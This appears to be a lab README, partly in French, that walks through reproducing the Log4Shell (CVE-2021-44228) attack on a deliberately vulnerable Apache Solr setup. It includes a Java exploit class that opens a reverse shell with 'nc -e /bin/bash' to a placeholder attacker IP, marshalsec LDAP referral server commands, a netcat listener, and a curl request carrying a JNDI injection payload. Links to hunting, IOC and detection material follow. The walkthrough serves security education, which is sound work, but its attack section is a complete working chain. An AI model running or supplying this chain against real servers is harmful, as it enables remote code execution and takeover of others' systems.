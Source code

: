 # ENI Veille SSI Log4Shell

Pour réalisez l'attaque présente dans la vidéo, vous devez créer 2 machines virtuels

Dans le première machine qui sera celle de la victime, vous devrez installer une version vulnérable de Solr

## 1. Install Java on victim
Install Java.
```
$ sudo apt install default-jdk -y
```
Verify the Java installation.
```
$ java -version
```
Download Solr :
```
wget https://archive.apache.org/dist/lucene/solr/7.7.3/solr-7.7.3-src.tgz 
```

Install Apache Solr.
```
$ sudo bash solr-7.7.3/bin/install_solr_service.sh solr-7.7.3-src.tgz 
```
Check the status of the Apache Solr service.

```
$ sudo systemctl status solr
```
Enable the Apache Solr service to start on system boot.
```
$ sudo systemctl enable solr
```
Allow port 8983 through the UFW firewall.
```
$ sudo ufw allow 8983
```
To access the Apache Solr web interface, go to your browser and enter http://serverIP:8983.

## 2 Prepare attack :

The first order of business however is obtaining the LDAP Referral Server. We will use the marshalsec utility offered at https://github.com/mbechler/marshalsec

## exploit java :
```
public class Exploit {
    static {
        try {
            java.lang.Runtime.getRuntime().exec("nc -e /bin/bash YOUR.ATTACKER.IP.ADDRESS 4444");
        } catch (Exception e) {
            e.printStackTrace();
        }
    }
}
```

Compiler le code java :
```
javac Exploit.java -source 8 -target 8
```

## Attack

Création du serveur python :
```
python3 -m http.server
```

Prepare a netcat listener on any port of your choosing :

```
nc -lnvp 4444
````
Execut ldap server :
```
java -cp target/marshalsec-0.0.3-SNAPSHOT-all.jar marshalsec.jndi.LDAPRefServer "http://YOUR.ATTACKER.IP.ADDRESS:8000/#Exploit"
```

Attack :
```
curl 'http://MACHINE_IP:8983/solr/admin/cores?foo=$\{jndi:ldap://YOUR.ATTACKER.IP.ADDRESS:1389/Exploit\}'
```

## Repository contents

| Directory                          | Purpose |
|:-----------------------------------|:--------|
| [hunting](hunting/README.md)       | Contains info regarding hunting for exploitation |
| [iocs](iocs/README.md)             | Contains any Indicators of Compromise, such as scanning IPs, etc |
| [detection & mitigation](detection_mitigation/README.md)   | Contains info regarding detection and mitigation, such as regexes for detecting scanning activity and more |
| [scanning](scanning/README.md)     | Contains references to methods and tooling used for scanning for the Log4j vulnerability |
| [software](software/README.md)     | Contains a list of known vulnerable and not vulnerable software |
| [tools](tools/README.md)           | Contains a list of tools for automatically parsing info on this repo |

## Source

https://logging.apache.org/log4j/2.x/security.html
https://nvd.nist.gov/vuln/detail/CVE-2021-44228
https://github.com/HynekPetrak/log4shell-finder
https://www.fortinet.com/blog/threat-research/critical-apache-log4j-log4shell-vulnerability-what-you-need-to-know
https://www.splunk.com/en_us/surge/log4shell-log4j-response-overview.html
